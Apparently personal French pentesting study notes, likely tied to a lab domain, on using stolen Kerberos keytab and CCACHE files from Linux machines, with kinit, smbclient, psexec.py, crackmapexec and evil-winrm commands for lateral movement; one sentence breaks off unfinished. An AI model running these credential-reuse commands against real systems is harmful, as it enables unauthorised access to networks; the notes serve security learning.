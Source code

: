 ```yaml
---
public: true # set to true to make the article publishable
---
```


On peut utiliser la commande `realm` pour avoir des informations sur l'authentification kerberos configurée sur une machine linux.

Un fichier keytab contient les clés liées à un compte utlisateur pour réaliser des authentification kerberos (demande de TGT)

Un fichier CCACHE est contient un ou plusieurs tickets kerberos.

Lorsqu'on trouve un fichier keytab et que l'on connait le nom d'utilisateur qui lui est associé (en utilisant par exemple KeyTab Extract,

## Trouver des fichiers keytab et CCACHE

Par défaut les fichiers `CCACHE` sont enregistrés dans `/tmp` mais seul l'utilisateur root peut y accéder

## Utilisation d'un Keytab

on peut utiliser le fichier Keytab à l'aide de `kinit` :

```
# création d'un TGT à partir d'un keytab
kinit user@realm -k -t /chemin/vers/fichier.keytab # le ticket généré est stocké dans le CCACHE courant ou un CCACHE est créé (dans /tmp)
                                        # la variable KRB5CCNAME prend la valeur du fichier CCACHE si cela n'était pas déja le cas
# vérification des tickets disponibles
klist

# utilisation par exemple de smbclient
smbclient -k -no-pass //SRV/Share -c 'ls'
```

## Utilisation d'un CCACHE

Si on arrive à lire un CCACHE, on peut l'utiliser :

```
export KRB5CCNAME=/Path/to/Fichier.CCACHE

# Exemples d'utilisation
smbclient -k -no-pass //SRV/Share -c 'ls'

psexec.py  FQDN.domain.local -k -no-pass

## ATTENTION : cme n'utilise $KRB5CCNAME que si on utilise --use-kcache
crackmapexec smb dc01.inlanefreight.htb -k --use-kcache --shares


# Evil-WinRM (nécessite d'ajouter une entrée vers le KDC (voir -h))
proxychains evil-winrm -i FQDN.domain.local -r 'domain.local'
```
